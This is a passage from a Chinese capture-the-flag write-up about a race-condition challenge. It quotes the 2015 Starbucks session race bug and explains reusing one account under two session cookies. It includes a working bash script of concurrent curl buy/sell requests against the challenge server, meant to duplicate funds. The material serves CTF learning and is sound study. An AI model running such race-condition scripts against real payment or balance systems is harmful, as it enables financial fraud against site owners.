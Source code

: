 #### 竞争

看了别人的WP，发现确实是可以竞争的。不过，这个竞争和我们考虑的不一样，我们以为是用多个马甲号的COOKIE去喂一个马甲的钱。他的意思是，通过一个账户的不同cookie去操作。先用一个cookie买一个数据，然后再通过不同的cookie卖。好神奇，好奇后台逻辑是怎么写的。

> 发现，这里有一个脑洞提醒。购买Brownie后会有这个提示
>
> Brownie：Round off your meal with a salty brownie and a cup of locally roasted coffee at Baked,
> maybe you will get flag :p
>
> 脑洞联想到星巴克在15年爆出的session条件竞争 
>
> https://sakurity.com/blog/2015/05/21/starbucks.html

> 摘自：http://bobao.360.cn/news/detail/1570.html
>
> 有一类非常有趣的漏洞叫做”竞争条件”。这个bug对于带有余额、凭证或者其他有限资源（主要是金钱）的网站非常常见。
>
> 所以，把钱从card1转移到card2是这样的状态：第一个POST请求 ：
>
> POST /step1?amount=1&from=wallet1&to=wallet2
>
> 保存这些值到session中，然后进行第二个POST：
>
> POST/step2?confirm
>
> 这步是事实上是转移了这笔钱，然后清空了session。
>
> **这使得漏洞利用非常困难，因为session在第一次确认请求中被破坏了，然后第二个请求就失败了。但是这个保护措施仍然很容易绕过：使用两个不同的浏览器（session、cookie不同）、相同的账户。**
>
> 攻击的伪代码：

sh参考代码:

```sh
#!/bin/bash
username="moxiaoxi"
password="moxiaoxi"
cookie1="PHPSESSID=gseqg01fg54is7nh733lch3eu1"
cookie2="PHPSESSID=r18k5gc0mvu94urgd04k8hgbl7"
url="http://202.120.7.197/app.php"

curl "$url?action=login" -b $cookie1 -d "username=$username&pwd=$password" &\
curl "$url?action=login" -b $cookie2 -d "username=$username&pwd=$password"

curl "$url?action=buy&id=1" -b $cookie1

curl "$url?action=sale&id=1" -b $cookie1 &\
curl "$url?action=sale&id=1" -b $cookie2

```
很疑惑，这里竟然能百分百触发，然后搞不懂为啥本来的脚本没办法触发，就改写了一下脚本，进行测试。 
